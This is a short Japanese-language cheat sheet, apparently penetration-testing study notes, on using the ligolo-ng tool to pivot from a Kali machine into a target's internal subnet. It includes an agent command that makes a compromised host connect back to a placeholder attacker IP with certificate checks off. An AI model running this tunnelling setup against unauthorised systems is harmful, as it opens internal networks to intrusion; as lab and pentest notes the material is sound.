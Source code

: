 # ligolo

[ligoloの使い方、参考ページ](https://systemweakness.com/everything-about-pivoting-oscp-active-directory-lateral-movement-6ed34faa08a2)

- agentとproxyというバイナリをそれぞれ/usr/bin/に置いたので、agentのバイナリをまずはターゲット上に置く必要がある。また、ターゲットOSによってバイナリを変える必要があるので、都度githubから引っ張ってくる必要がある。
  
[ソースはここから](https://github.com/nicocha30/ligolo-ng/releases)

## コマンド集

0. ダウンロードしてきたファイルを解凍する。
```
sudo tar -xzvf <target_file>
```

1. tunをセットする。
```
$ sudo ip tuntap add user [your_username] mode tun ligolo
$ sudo ip link set ligolo up
```

2. リバースプロキシを立ち上げる。ポーとは9001で待ち受けておく。
```
proxy -selfcert -laddr 0.0.0.0:9001
```

3. 利用できるインターフェースを一覧表示する。
```
session
ifconfig
```

4. 10.10.127.0/24サブネット宛ての全てのパケットを、ligolo tunインターフェースを介して送信するようにKali上で設定する。(これ自体はligoloのコマンドではなくKali上での設定)
```
sudo ip route add 10.10.127.0/24 dev ligolo
```
5. 上記までの手順を行った後に、セッションをスタートする。これでtargetサブネット上の内部ネットワークと、Kali上から直接やり取りができるようになる。
```
session
start
```

### Agent側
1. 
```
./agent.exe -connect <attackerIP>:port -ignore-cert
```